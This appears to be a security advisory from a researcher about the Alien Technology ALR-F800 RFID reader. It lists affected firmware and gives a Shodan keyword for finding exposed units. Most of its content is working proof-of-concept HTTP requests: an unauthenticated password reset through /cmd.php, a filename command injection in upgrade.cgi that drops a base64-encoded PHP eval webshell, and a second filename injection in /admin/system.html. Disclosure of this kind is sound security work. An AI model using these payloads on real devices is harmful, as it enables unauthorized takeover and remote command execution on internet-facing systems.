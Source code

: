 # Information

**Affected product:** ALR-F800

**Vendor of the product:** Alien Technology

**Product page:** https://www.alientechnology.com/products/readers/alr-f800/

**Affected system version:** 19.10.24.00 and lower

**Firmware download:** https://www.alientechnology.com/download/alr-f800-software/?wpdmdl=7609&ind=MTU3NTQ4MjY2NndwZG1fYWxpZW4tZmlybXdhcmVfMTkuMTAuMjQuMDBfZjgwMC5hZWQ

**Shodan keyword:** http.title:"ALR-F800"

**Reported by:**  Wentao Yang (pushe4x@gmail.com)



# Description

ALR-F800 is a high-performance RFID reader and features Gatescape web interface.

Several vulnerabilities have been found in the `/cmd.php`、`/cgi-bin/upgrade.cgi`、`/admin/system.html`，allowing unauthorized attackers to modify web interface login credentials and execute arbitrary commands via a crafted request.



# Unauthorized Command Execution Vulnerabilities

The vulnerability exists in `/var/www/cmd.php`, where unauthorized attackers can execute arbitrary CLI commands, including modifying network configurations and login credentials.

![image-20240719165844844](https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20240719165844844.png)

## POC:

Send the following request to the vulnerable server:

```http
POST /cmd.php HTTP/1.1
Host: VULNERABLE_SERVER_IP
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

cmd=password=password
```

After the attack, the default account (username `Alien`) for the web interface and SSH will have its password reset to `password`.



# Command injection vulnerability 1

This vulnerability exists in `/var/www/cgi-bin/upgrade.cgi`. This file takes the user-uploaded update package, appends the filename to the update command without any filtering, and then calls `popen` with the command string executed as an argument.

![image-20240719161359488](https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20240719161359488.png)

After gaining system login access through the previous vulnerability, an attacker can execute system commands by crafting a malicious filename. 

Since the command execution does not echo back and cannot contain slashes, it is recommended to use the following POC to write a WebShell to the web page.

## POC:

Encode the command to be executed using Base64, for example:

`echo 'echo "<?php eval(\$_REQUEST['cmd']);?>" > /var/www/shell.php' | base64`

The encoded result is:

`ZWNobyAiPD9waHAgZXZhbChcJF9SRVFVRVNUWydjbWQnXSk7Pz4iID4gL3Zhci93d3cvc2hlbGwucGhw`

Finally, send the following request to the vulnerable server:

```http
POST /cgi-bin/upgrade.cgi HTTP/1.1
Host: VULNERABLE_SERVER_IP
Authorization: Basic YWxpZW46cGFzc3dvcmQ=
Content-Length: 301
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQ3keNKAe5AQ9G7bs

------WebKitFormBoundaryQ3keNKAe5AQ9G7bs
Content-Disposition: form-data; name="uploadedFile"; filename=";echo ZWNobyAiPD9waHAgZXZhbChcJF9SRVFVRVNUWydjbWQnXSk7Pz4iID4gL3Zhci93d3cvc2hlbGwucGhw| base64 -d | sh"
Content-Type: application/octet-stream

Hi！
------WebKitFormBoundaryQ3keNKAe5AQ9G7bs

```

After the attack, the WebShell will be written to：

`https://VULNERABLE_SERVER_IP//shell.php?cmd=phpinfo();`



# Command injection vulnerability 2

This vulnerability exists in `/admin/system.html`. By exploiting this vulnerability, attackers can execute system commands by uploading a file with a malicious filename. 

![image-20240730083747447](https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20240730083747447.png)

## POC:

Send the following request to the vulnerable server:

```http
POST /admin/system.html HTTP/1.1
Host: VULNERABLE_SERVER_IP
Content-Length: 412
Cache-Control: max-age=0
Authorization: Digest username="alien", realm="Authorized users only", nonce="e01f9b86814aced6260f94fdfc978b21", uri="/admin/system.html", response="cbc415aecfcceb4a4afa23973960b8da", qop=auth, nc=000000cc, cnonce="dd03b48ea65cac94" #REPLACE THIS
Connection: keep-alive

------WebKitFormBoundaryJpks6wYXiOago8MS
Content-Disposition: form-data; name="upload_max_filesize"

3M
------WebKitFormBoundaryJpks6wYXiOago8MS
Content-Disposition: form-data; name="uploadedFile"; filename=";whoami"
Content-Type: application/octet-stream

123
------WebKitFormBoundaryJpks6wYXiOago8MS
Content-Disposition: form-data; name="action"

Install
------WebKitFormBoundaryJpks6wYXiOago8MS--
```

After the attack, the command `whoami` will be executed on the server.
